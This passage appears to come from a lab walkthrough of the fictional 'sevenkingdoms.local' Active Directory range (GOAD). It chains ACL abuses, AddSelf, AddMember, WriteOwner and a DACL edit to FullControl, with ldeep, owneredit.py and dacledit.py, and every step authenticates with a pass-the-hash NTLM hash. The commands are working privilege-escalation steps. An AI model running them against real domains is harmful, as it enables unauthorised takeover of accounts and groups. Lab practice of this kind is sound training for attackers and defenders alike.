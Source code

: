 - Add tyron to Small Council

```bash
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=Small Council,OU=Crownlands,DC=sevenkingdoms,DC=local"
```

- See the result

```bash
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 membersof 'Small Council'
```

![acl_addself.png](/assets/blog/GOAD/acl_addself.png)

## AddMember on Group (Small Council -> dragonstone)

- Now as tyron we are in the small council, so we can add a member to dragonstone's group.
- So we just add tyron just like we did before

![acl_addmember.png](/assets/blog/GOAD/acl_addmember.png)

```bash
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=DragonStone,OU=Crownlands,DC=sevenkingdoms,DC=local"
```

## WriteOwner on Group (dragonstone -> kingsguard)

- Now with the writeOwner privilege we can change the owner of kingsguard to own the group

![acl_write_owner.png](/assets/blog/GOAD/acl_write_owner.png)

- Just like before we will use the impacket [fork](https://github.com/ThePorgs/impacket)

```bash
owneredit.py -action read -target 'kingsguard' -hashes ':b3b3717f7d51b37fb325f7e7d048e998' sevenkingdoms.local/tyron.lannister
owneredit.py -action write -owner 'tyron.lannister' -target 'kingsguard' -hashes ':b3b3717f7d51b37fb325f7e7d048e998' sevenkingdoms.local/tyron.lannister
```

![acl_changeowner.png](/assets/blog/GOAD/acl_changeowner.png)

- And the owner of kingsguard group is now tyron.lannister
- As owner of the group we can now change the acl and give us GenericAll on the group

```bash
dacledit.py -action 'write' -rights 'FullControl' -principal tyron.lannister  -target 'kingsguard' 'sevenkingdoms.local'/'tyron.lannister' -hashes ':b3b3717f7d51b37fb325f7e7d048e998'
```

- With GenericAll now we can add tyron to the kingsguard group
